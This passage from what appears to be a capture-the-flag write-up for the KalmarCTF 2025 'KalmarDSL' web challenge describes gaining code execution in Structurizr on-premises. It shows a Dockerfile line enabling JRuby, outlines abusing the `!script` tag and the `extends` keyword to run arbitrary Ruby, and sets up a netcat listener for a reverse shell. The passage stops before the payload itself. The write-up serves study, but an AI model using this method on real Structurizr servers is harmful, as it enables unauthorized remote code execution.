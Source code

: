 ![](https://github.com/siunam321/CTF-Writeups/blob/main/KalmarCTF-2025/images/Pasted%20image%2020250313163639.png)

Oh, it worked!

Remember the weird "bug" fix in the challenge's `Dockerfile`?

```bash
# Fix 'bug' in structurizr/onpremises: the !script tag didn't work.
RUN sed -i '/^dependencies/a \    implementation "org.jruby:jruby-core:9.4.12.0"' structurizr-onpremises/build.gradle
```

Looks like only Ruby is supported for the `!script` tag! Now let's get a reverse shell using the handy `ncat` tool!

## Exploitation

Armed with above information, we can gain RCE and get a reverse shell via the following steps:
1. Host our own DSL file, which executes arbitrary Ruby code via the `!script` tag
2. Submit our DSL payload, where it uses the `extends` keyword to set the restricted mode to `false`

- Setup a netcat listener:

```shell
┌[siunam♥Mercury]-(~/ctf/KalmarCTF-2025/web/KalmarDSL)-[2025.03.13|16:41:20(HKT)]
└> nc -lnvp 4444             
Listening on 0.0.0.0 4444

```
